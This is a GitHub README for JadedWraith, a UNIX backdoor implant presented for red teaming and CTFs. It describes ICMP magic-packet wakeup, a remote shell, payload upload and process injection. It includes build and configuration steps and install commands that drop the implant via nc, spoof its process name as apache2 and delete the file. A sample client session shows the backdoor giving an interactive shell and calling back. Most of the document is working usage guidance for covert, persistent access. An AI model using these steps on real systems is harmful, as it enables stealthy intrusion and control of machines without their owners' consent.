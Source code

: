 # JadedWraith

Lightweight UNIX backdoor for ethical hacking. Useful for red team engagements and CTFs. Something I wrote a few years ago as part of a game I was playing with a friend to try to backdoor as many VMs in each other's labs without being caught or having our tools reverse engineered/signatured.

## Features

JadedWraith is a powerful backdoor capable of either listening on a TCP port or sniffing packets for a "magic" ICMP packet instructing the backdoor to either callback or listen. This is partly inspired by tools such as [PRISM](https://github.com/andreafabrizi/prism), however, unlike PRISM JadedWraith incorporates shoddy cryptography to obfuscate command and control. JadedWraith can be used to execute remote commands or upload follow on payloads.

JadedWraith can be compiled as a standalone executable or as a shared object for process injection. 
 
## Components

The source code for the actual implant can be found inside the `src` directory. `client` contains a simple python based client for interacting with JadedWraith. The `conf_jawr` script is used to configure new JadedWraith executables.

## Dependencies
The implant requires a modern C library and libpthread. Depending on the target operating system, libpcap may be required (In which case, it you must run the `./configure` script with `--use-libpcap` to enable libpcap support).

The Python configuration script and client require the the following packages to work: termcolor, pycryptodomex

## How to compile
Simply use the `Makefile` to compile. Note: The resulting binaries found in `bin` must be configured before they can be used.
```
$ ./configure
$ make
$ ls -lart bin
-rwxrwxr-x. 1 root root 19712 Jul 31 13:08 JadedWraith-2.0.0-Linux-x86_64.elf
```

## How to configure

Use the `conf_jawr` script to configure JadedWraith executables. It will search the `bin` directory for JadedWraith executables to configure. The configured binary will be written to the `configured` directory.

```
$ ./conf_jawr
JadedWraith Configuration

Please choose a JadedWraith binary to use: 
    1. JadedWraith-2.0.0-Linux-x86_64.elf
Binary : 1
Shared Key [95454c93c8d5d30a0782da72ade10e29] : 
Enable passive mode (ICMP wakeup) ? [y/n] y
Wakeup Password [4Zw2TTtaIKBcyeoLwd7rrTasRlUF90vSZnLFzn2A4ab018Vj] : 
argv[0] (Leave blank to not spoof command) [] : 

JadedWraith Executable : /tmp/JadedWraith/configured/builds/JadedWraith-2.0.0-Linux-x86_64.1627752415.bin

Try me!
   sudo ./wraith-client.py <IP_ADDRESS> -k 95454c93c8d5d30a0782da72ade10e29 -P 4Zw2TTtaIKBcyeoLwd7rrTasRlUF90vSZnLFzn2A4ab018Vj
```

## How to install
A configured implant can simply be ran on the target system. If configured to use the passive ICMP functionality, it must be ran as root. The environmental variable _CMD can be used to spoof the process's `argv[]`

```
# cd /tmp
# nc -lvp 4444 > apache2
# chmod +x apache2
# _CMD="/usr/sbin/apache2" ./apache2
# rm apache2
```

## How to interact
The `wraith-client.py` script inside `client` can be used to interact with JadedWraith. Simply invoke it with the arguments produced by the `conf_jawr` script, substituting the target's IP for `<IP_ADDRESS>`. If utilizing the ICMP functionality, the script must be ran as root to send the ICMP packet.


```
$ ~/JadedWraithFork/client> sudo ./wraith-client.py 192.168.100.224 -k 1deeb4a64440b8d13c84a8eb4e7c4453 -P y00nrnwpwXdvPOXSS6K0r7LelFeCBvKx91Oj0s5BrnLyx1WR
[+] sent ICMP wake up command to 192.168.100.224
[*] backdoor will listen on port 58290
[*] connecting to 192.168.100.224:58290
[+] connection established!
[*] entering interactive shell
>> .cd /tmp 
>> w
 14:22:49 up  3:02,  1 user,  load average: 0.18, 0.19, 0.23
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
>> ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 11:20 ?        00:00:01 /usr/lib/systemd/systemd --switched-root --system --deserialize 31
>> .exit
$ sudo ./wraith-client.py 127.0.0.1 --callback 192.168.100.224 -k 1deeb4a64440b8d13c84a8eb4e7c4453 -P y00nrnwpwXdvPOXSS6K0r7LelFeCBvKx91Oj0s5BrnLyx1WR
[+] sent ICMP wake up command to 127.0.0.1
[*] backdoor will connect to port 37943
[*] listening on port 37943
[+] accepted connection!
[*] entering interactive shell
>> 
```

## Bugs
I'm sure this has plenty of bugs. Let me know if you find any. I wrote this over a few days and the code isn't my proudest. Feel free to report any issues and I'll try to fix them. 
